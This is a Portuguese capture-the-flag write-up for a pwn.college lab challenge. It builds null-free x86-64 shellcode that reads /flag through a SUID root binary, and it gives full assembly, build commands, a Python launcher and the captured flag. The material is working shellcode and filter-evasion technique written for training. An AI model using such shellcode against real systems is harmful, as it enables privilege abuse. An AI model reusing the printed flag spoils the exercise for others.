








# pwn.college — NULL-Free Shellcode
### Intro to Cybersecurity · Orange Belt · Binary Exploitation

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Binary Exploitation — Intro to Cybersecurity (Orange Belt)  
> **Técnicas:** NOP sled · Direct syscall shellcode · Position-independent shellcode · SUID privilege abuse

---

## Descrição do Desafio

Similar aos desafios anteriores, o binário lê bytes do stdin, copia para uma região de memória e os executa como código. A diferença crítica desta vez é que o programa **filtra qualquer null byte (`0x00`) do shellcode antes de executar** — ao encontrar um null byte, encerra a execução imediatamente:

```
This challenge requires that your shellcode have no NULL bytes!
Failed filter at byte 4!
```

O objetivo continua sendo ler `/flag`:

```
-r-------- 1 root root 58 /flag
```

O binário tem SUID (dono root), então o shellcode roda com EUID=0 — necessário para ter permissão de leitura sobre `/flag`. Para mais detalhes sobre SUID e EUID, consulte o writeup do desafio básico.

---

## Abordagem 1: Shell interativo com `execve` (descartada)

A primeira tentativa foi um shellcode clássico que invoca `/bin/sh`. Descartada pelo mesmo motivo do desafio básico: o `/bin/sh` dropa o EUID ao iniciar (executa `setuid(UID)` internamente), perdendo o privilégio de root necessário para ler `/flag`.

A solução correta é fazer as syscalls diretamente — `open`, `read`, `write`, `exit` — sem criar um novo processo, preservando o EUID=0 durante toda a execução.

---

## Abordagem 2: Shellcode open/read/write como ponto de partida (shellcode1)

O shellcode base, sem preocupação com null bytes, ficou assim:



```asm
.global _start
_start:
.intel_syntax noprefix

    # open("/flag", O_RDONLY) → retorna fd em rax
    mov rax, 2
    lea rdi, [rip + flag]
    mov rsi, 0
    mov rdx, 0
    syscall

    # salva o fd em rdi para o read
    mov rdi, rax

    # read(fd, buf, 0x100) → lê o conteúdo do arquivo
    mov rax, 0
    lea rsi, [rip + results]
    mov rdx, 0x100
    syscall

    # write(stdout, buf, 0x100) → imprime na tela
    mov rax, 1
    mov rdi, 1
    lea rsi, [rip + results]
    mov rdx, 0x100
    syscall

    # exit(0)
    mov rax, 60
    mov rdi, 0
    syscall

flag:
    .string "/flag"
results:
    .space 100
```

Compilando, extraindo o `.text` e enviando como input:

```bash
gcc -nostdlib -static -o shellcode1-elf shellcode1.s
objcopy --dump-section .text=shellcode1-raw shellcode1-elf
cat shellcode1-raw | /challenge/binary-exploitation-null-free-shellcode
```

O filtro encerrou imediatamente no byte 4:

```
Failed filter at byte 4!
```

---

## Identificando os Null Bytes

### Passo 1: `hd` (hexdump) para ver os bytes brutos

```bash
hd shellcode1-raw
```



O hexdump revelou dois padrões de null bytes se repetindo ao longo do shellcode.

### Passo 2: `objdump` para correlacionar bytes com instruções

```bash
objdump -M intel -d shellcode1-elf
```



O objdump confirmou as instruções responsáveis pelos null bytes. Dois padrões ficaram claros:

---

### Padrão 1: `mov reg, imm` com imediato pequeno

Consultando o formato da instrução `mov reg64, imm64`:


A instrução `mov reg, imm64` usa o prefixo REX.W (`48` ou `49`) seguido de `c7 /0` ou `b8 +rd`, e espera **4 bytes** para o campo do imediato. Como valores pequenos ocupam apenas 1 byte, o assembler preenche os bytes restantes com `00`:

```
48 c7 c0 02 00 00 00   →   mov rax, 0x2     ← 3 bytes nulos!
48 c7 c6 00 00 00 00   →   mov rsi, 0x0     ← 4 bytes nulos!
48 c7 c2 00 00 00 00   →   mov rdx, 0x0     ← 4 bytes nulos!
48 c7 c2 00 01 00 00   →   mov rdx, 0x100   ← 3 bytes nulos!
```

### Padrão 2: `lea reg, [rip + offset]` com offset pequeno positivo

O campo de offset do `lea` também espera **4 bytes**. Com `flag` e `results` posicionados *após* o `_start`, os offsets são pequenos e positivos — os bytes altos ficam zerados:

```
48 8d 3d 58 00 00 00   →   lea rdi, [rip + 0x58]   ← 3 bytes nulos!
48 8d 35 3d 00 00 00   →   lea rsi, [rip + 0x3d]   ← 3 bytes nulos!
```

---

## Eliminando os Null Bytes (shellcode2)

### Solução para `mov reg, imm` pequeno: `xor` + `add`

Para `mov reg, 0`, basta `xor reg, reg` — zera o registrador sem imediato:

```asm
xor rsi, rsi    # substitui mov rsi, 0  →  48 31 f6  (sem null bytes)
xor rdx, rdx    # substitui mov rdx, 0  →  48 31 d2  (sem null bytes)
```

Para `mov reg, imm` com imediato não-nulo pequeno, usa `xor reg, reg` + `add reg, imm`. O `add` com imediato de 8 bits usa a variante curta (`48 83`) que aceita apenas 1 byte para o valor:

```asm
# antes (com null bytes):
mov rax, 2          # 48 c7 c0 02 00 00 00

# depois (sem null bytes):
xor rax, rax        # 48 31 c0
add rax, 2          # 48 83 c0 02  ← apenas 1 byte para o imediato!
```

**Caso especial — `mov rdx, 0x100`:**

Trocar por `xor rdx, rdx` + `add rdx, 0x100` **não resolve** — o próprio `0x100` tem null byte:

```
48 81 c2 00 01 00 00   →   add rdx, 0x100   ← ainda tem null bytes!
```

A solução foi usar o registrador `dh` — o **segundo byte menos significativo** de `rdx`. Colocar `1` em `dh` equivale a colocar `0x100` em `rdx`, sem nenhum null byte:

```asm
xor rdx, rdx
mov dh, 0x1     # rdx = 0x0000000000000100
                # opcode: b6 01  →  apenas 2 bytes, sem null bytes!
```

```
Layout de rdx após mov dh, 0x1:

  bits: 63      47      31      15   8 7      0
        |  00   |  00   |  00   |  01 | 00   |
                                   ↑
                                   dh (bits 15-8)

  valor: 0x0000000000000100 = 256 = 0x100  ✅
```

### Solução para offsets pequenos no `lea`: mover dados antes do `_start`

Com `flag` e `results` posicionados *após* o código, o `rip` precisa *avançar* para alcançá-los — offsets positivos pequenos com bytes altos zerados.

Movendo `flag` e `results` para *antes* do `_start`, o `rip` precisa *recuar* — offsets negativos. Em **complemento de 2**, um número negativo tem todos os bytes altos em `0xff`, eliminando os null bytes:

```
# antes (offset positivo pequeno → null bytes):
48 8d 35 3d 00 00 00   →   lea rsi, [rip + 0x3d]

# depois (offset negativo → sem null bytes):
48 8d 35 dd fe ff ff   →   lea rsi, [rip - 0x123]
```

O shellcode2 reorganizado com todas essas correções, verificado com `objdump`:



Nenhuma instrução mostrava null bytes nas colunas de bytes. Parecia resolvido. Mas ao rodar:

```
Failed filter at byte 5!
```

---

## Null Bytes Ocultos: o que o `objdump` não mostra

O `objdump` desassembla apenas **instruções** — ele interpreta e exibe os opcodes, mas **não mostra o conteúdo de dados estáticos** como `.string` e `.space`. Para ver os bytes brutos reais do arquivo:

```bash
hd shellcode2-raw
```



O hexdump revelou zeros logo no início — o `0x00` do terminador do `.string "/flag"` está no byte 5, exatamente onde o filtro parou:

```
00000000  2f 66 6c 61 67 00 00 00  00 00 00 00 00 00 00 00
           /  f  l  a  g  ^^
                           null byte do terminador!
```

Dois problemas ocultos que o `objdump` não exibia:

### Problema 1: `.string "/flag"` adiciona `\0` automaticamente

A diretiva `.string` é equivalente a uma string C — sempre insere o byte `\0` ao final como terminador. Esse byte não aparece no `objdump` (que só mostra instruções), mas está nos bytes brutos e é filtrado pelo desafio.

### Problema 2: `.space N` preenche com zeros

A diretiva `.space N` reserva N bytes inicializados com `0x00`. Todo esse bloco vira null bytes no shellcode compilado.

---

## Resolvendo os Null Bytes de Dados

### `.space` → `.fill N, 1, 0x90`

Substituir `.space 100` por `.fill 0x200, 1, 0x90` preenche o buffer com `0x90` (NOP) em vez de zeros. O tamanho foi aumentado para `0x200` para garantir que o `read` de `0x100` bytes não sobrescreva as instruções do `_start` logo após.

### `.string` → construção da string na stack em runtime

A primeira tentativa foi substituir `.string` por `.ascii`:



O `.ascii "/flag"` remove o terminador automático. Mas aí o `open()` não sabe onde a string termina — continua lendo a memória além de `/flag` indefinidamente, causando segfault.

O `open()` **precisa** do `\0` para encerrar a leitura do nome do arquivo. O desafio é colocar esse `\0` sem que ele apareça no shellcode compilado.

**A solução:** entender quando o filtro age.

```
Filtro checa:   bytes do shellcode-raw em tempo de load (antes de executar)
Null bytes OK:  dados criados em runtime (push, operações durante execução)
```

Bytes criados *durante* a execução não existem no shellcode compilado — o filtro nunca os vê. Então a string `/flag\0` pode ser construída inteiramente em runtime, na stack.

**Passo 1 — Empurrar o terminador:**

```asm
xor rsi, rsi
push rsi        # empurra 8 bytes de 0x00 na stack → terminador \0 em runtime
```

**Passo 2 — Empurrar `/flag` com padding:**

O `push` em 64 bits sempre empurra **8 bytes**. Como `/flag` tem apenas 5 bytes (`0x67 0x61 0x6c 0x66 0x2f`), os 3 bytes restantes precisam ser não-nulos. O padding escolhido foi `0x90`:

```asm
movabs rbx, 0x67616c662f909090   # "/flag" nos bytes altos + 0x909090 de padding
                                  # 8 bytes completos → sem zeros no opcode!
push rbx
```

O `movabs` carrega um imediato de exatamente 64 bits. Como `0x67616c662f909090` preenche todos os 8 bytes, o assembler não precisa adicionar zeros de preenchimento.

**Passo 3 — Apontar `rdi` para o início de `/flag`:**

Após os dois `push`, o layout na stack (em little-endian, endereços crescem para cima) é:

```
endereço maior
  rsp+8 → 00 00 00 00 00 00 00 00   ← push rsi (terminador \0)
  rsp   → 90 90 90 2f 66 6c 61 67   ← push rbx (0x909090 + "/flag")
endereço menor

Em bytes sequenciais a partir de rsp:
  rsp+0: 0x90  ← padding
  rsp+1: 0x90  ← padding
  rsp+2: 0x90  ← padding
  rsp+3: 0x2f  ← '/'   ← rdi deve apontar aqui
  rsp+4: 0x66  ← 'f'
  rsp+5: 0x6c  ← 'l'
  rsp+6: 0x61  ← 'a'
  rsp+7: 0x67  ← 'g'
  rsp+8: 0x00  ← '\0'  ← open() para aqui
```

Para pular os 3 bytes de padding e apontar `rdi` direto para o `/`:

```asm
lea rdi, [rsp + 3]    # pula os 3 bytes 0x90, aponta para '/'
```

O `open()` lê a partir de `rdi`: encontra `/flag` e para no `\0` que veio do `push rsi`. Tudo construído em runtime — nenhum null byte no shellcode compilado.

---

## Padding Final: completando os `0x1000` bytes

O binário lê exatamente `0x1000` bytes do stdin. O shellcode compilado tem muito menos — os bytes restantes do input seriam zeros, filtrados pelo desafio.

A solução foi usar o `.fill` no final do assembly para preencher automaticamente:

```asm
.fill 0x1000 - (. - buffer), 1, 0x90
```

O `.` representa o endereço atual (após a última instrução). `(. - buffer)` calcula quantos bytes o shellcode ocupa desde o início de `buffer`. Subtraindo de `0x1000` obtém quantos bytes faltam — todos preenchidos com `0x90`.

---

## Shellcode Final (shellcode3)



```asm
.global _start
.intel_syntax noprefix

buffer:
    .fill 0x200, 1, 0x90            # buffer para o read — sem null bytes

_start:
    # open("/flag", O_RDONLY)
    xor rax, rax
    add rax, 2
    xor rsi, rsi
    push rsi                          # terminador \0 na stack (runtime)
    movabs rbx, 0x67616c662f909090   # "/flag" + padding 0x90 (8 bytes completos)
    push rbx
    lea rdi, [rsp + 3]               # pula o padding, aponta para '/'
    xor rsi, rsi
    xor rdx, rdx
    syscall

    # read(fd, buffer, 0x100)
    mov rdi, rax
    xor rax, rax
    xor rsi, rsi
    lea rsi, [rip + buffer]
    xor rdx, rdx
    mov dh, 0x1                      # rdx = 0x100 sem null bytes
    syscall

    # write(stdout, buffer, bytes_lidos)
    mov rdx, rax
    xor rax, rax
    inc rax
    xor rdi, rdi
    inc rdi
    lea rsi, [rip + buffer]
    syscall

    # exit(0)
    xor rax, rax
    add rax, 60
    xor rdi, rdi
    syscall

    .fill 0x1000 - (. - buffer), 1, 0x90
```

### Compilação e execução

```bash
gcc -nostdlib -static shellcode3.s -o shellcode3-elf
objcopy --dump-section .text=shellcode3-raw shellcode3-elf
python3 -c "
import sys
with open('shellcode3-raw', 'rb') as f:
    sc = f.read()
padding = b'\x90' * (0x1000 - len(sc))
sys.stdout.buffer.write(sc + padding)
" | /challenge/binary-exploitation-null-free-shellcode
```

O script Python garante que exatamente `0x1000` bytes sejam enviados — todos não-nulos — complementando o `.fill` do assembly para cobrir qualquer byte residual.

---

## Resultado



```
pwn.college{Qc9ZoaHOQGM-jJgprLWp63G1P-E.dlTMywCOzYTNxEzW}
```

---

## Resumo Completo das Técnicas e Soluções

| Problema | Causa | Solução |
|---|---|---|
| `mov rax, 2` gera `00 00 00` | Imediato pequeno, assembler preenche bytes altos com zeros | `xor rax, rax` + `add rax, 2` |
| `mov rdx, 0x100` gera null | `0x100` tem zero no byte mais baixo, variante longa do `add` também | `xor rdx, rdx` + `mov dh, 0x1` |
| `lea` com offset pequeno positivo | Dados após `_start` → offset positivo pequeno → bytes altos zerados | Mover dados antes do `_start` → offset negativo → bytes altos `0xff` (complemento de 2) |
| `.string "/flag"` adiciona `\0` | Terminador automático de string C — presente nos bytes brutos, invisível no `objdump` | Construir string na stack em runtime com `push rsi` (terminador) + `movabs` + `lea rdi, [rsp+3]` |
| `.space N` preenche com zeros | Inicialização padrão é `0x00` | `.fill N, 1, 0x90` |
| Bytes finais do input são zeros | Binário lê `0x1000` bytes, bytes além do shellcode são `\0` | `.fill 0x1000 - (. - buffer), 1, 0x90` + padding Python |

**Técnicas:** Null-free shellcode · Direct syscall shellcode · Position-independent shellcode · SUID privilege abuse · Stack string construction em runtime
